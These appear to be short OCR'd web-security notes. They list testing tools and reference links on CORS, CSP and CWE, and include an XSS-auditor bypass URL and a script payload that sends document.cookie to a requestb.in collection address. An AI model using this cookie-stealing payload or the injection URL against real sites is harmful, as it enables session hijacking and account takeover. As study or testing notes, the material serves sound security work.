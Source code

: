 Burp
RequestBin
DirBuster
https://lists.owasp.org/mailman/listinfo
https://cwe.mitre.org/data/definitions/442.html
https://content-security-policy.com
https://developer.mozilla.org/en-US/docs/Web/HTTP/Access_control_CORS
https://cve.mitre.org


https://uw2017.p4.team/bypassing-xss-auditor?debug=1&adb=<script>alert(%27Hello%27);"\&abd2="</script>

<script>document.createElement("img").src="http://requestb.in/11t75fd1" + document.cookie</script>

